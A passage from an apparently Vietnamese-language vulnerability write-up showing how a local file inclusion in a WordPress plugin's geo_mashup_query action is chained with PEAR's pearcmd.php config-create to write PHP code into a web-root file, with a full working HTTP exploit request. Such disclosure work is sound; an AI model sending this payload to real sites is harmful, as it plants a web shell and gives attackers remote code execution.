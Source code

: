 4. `Console_Getopt::readPHPArgv()` trả `$argv`; `Console_Getopt::getopt2()` parse ra `$command='config-create'` và `list($tmpopt, $params)` trả về `$params=['/test_root_path','test_filename.php']`.

5. `doConfigCreate()` chạy với `$params` do attacker kiểm soát → `touch()`/`realpath()` và `writeConfigFile()` tạo/ghi file.

> [!INFO]
> File cấu hình được tạo có chứa giá trị `root path`. Nếu giá trị này bị ghi dưới dạng một thẻ PHP hợp lệ (`<?php ... ?>`) và `file` có thể được truy cập bởi client, webserver sẽ xử lý nội dung PHP trong file đó và đoạn mã sẽ được thực thi dẫn tới **RCE**

## Exploit

Tận dụng [CVE-2025-48293](https://w41bu1.github.io/2025-10-13-cve-2025-48293/) đã phân tích để khai thác mở rộng bằng `pearcmd.php`

Gửi request chứa LFI payload trỏ đến `pearcmd.php`

```http
GET /wp-admin/admin-ajax.php?action=geo_mashup_query&object_ids=2&template=../../../../../../../usr/local/lib/php/pearcmd&+config-create+/<?=phpinfo();?>+/var/www/html/shell.php HTTP/1.1
Host: localhost
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:144.0) Gecko/20100101 Firefox/144.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: http://localhost/wp-admin/
Connection: keep-alive
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
X-PwnFox-Color: blue
Priority: u=0, i
```

**Response trả về thành công**:

![res2](res2.png "Response trả về thành công")